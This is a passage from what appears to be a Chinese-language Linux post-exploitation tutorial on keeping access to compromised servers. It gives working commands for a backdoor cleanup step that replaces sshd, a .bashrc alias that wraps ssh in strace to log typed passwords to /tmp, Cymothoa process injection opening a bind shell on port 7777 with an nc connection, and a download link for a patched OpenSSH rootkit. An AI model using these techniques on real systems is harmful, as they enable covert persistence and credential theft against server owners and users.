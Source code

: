 ![p2](http://drops.javaweb.org/uploads/images/86f128b0364e1fae54517eb6e6ca0a348985417d.jpg)

还原：

```
rm -rf /usr/sbin/sshd; mv /usr/bin/sshd ../sbin;

```

0x04 SSH keylogger
==================

* * *

vim当前用户下的.bashrc文件,末尾添加

```
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh'

```

然后使配置生效

```
source .bashrc

```

当本地su或者ssh的时候,就会在tmp下面记录(无论失败成功都有记录)

![p3](http://drops.javaweb.org/uploads/images/72a7f32abc61945fdb919f71bd092f9ad774e8ea.jpg)

0x05 Cymothoa_进程注入backdoor
==========================

* * *

很赞的点是注入到的进程,只要有权限就行,然后反弹的也就是进程相应的权限(并不需要root那样),当然进程重启或者挂了也就没了.当然动作也是很明显的。

线程注入：

```
./cymothoa -p 2270 -s 1 -y 7777

```

![p4](http://drops.javaweb.org/uploads/images/d40b6bb83559c8c646c0f955ef88188a7a509a05.jpg)

```
nc -vv ip 7777

```

0x06openssh_rookit
==================

* * *

下载地址：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
